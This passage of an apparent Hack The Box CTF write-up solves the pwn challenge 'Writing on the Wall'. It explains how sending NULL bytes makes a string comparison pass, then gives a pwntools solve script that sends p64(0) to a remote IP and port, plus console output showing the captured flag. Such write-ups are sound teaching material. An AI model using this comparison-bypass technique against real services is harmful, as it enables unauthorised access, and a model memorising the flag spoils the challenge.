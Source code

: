 How about we set it to NULL? That would terminate the source string at length: 0.

If our input also contains the first byte as NULL, then even our string is terminated at length 0.

TL;DR if give it 7 NULL bytes then:

- first byte of our input: \x00

- first byte of source string: \x00

Hence both strings will become equal and we pass the condition check

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./writing_on_the_wall")

context.binary = exe

context.terminal = ['tmux', 'splitw', '-h']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("83.136.250.103", 52130)

    return r


def main():
    r = conn()

    # good luck pwning :)

    # gdb.attach(r, gdbscript='''
    #            b * main+71
    #            ''')

    r.send(p64(0))
    r.recvuntil(b'HTB')
    print(f'FLAG: HTB{r.recvline().strip().decode()}')


if __name__ == "__main__":
    main()
```

```console
python solve.py
[*] '/home/vulnx/Games/CTFs/Cyber Apocalypse/pwn/Writing on the Wall/challenge/writing_on_the_wall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
[+] Opening connection to 83.136.250.103 on port 52130: Done
FLAG: HTB{3v3ryth1ng_15_r34d4bl3}
[*] Closed connection to 83.136.250.103 port 52130
```
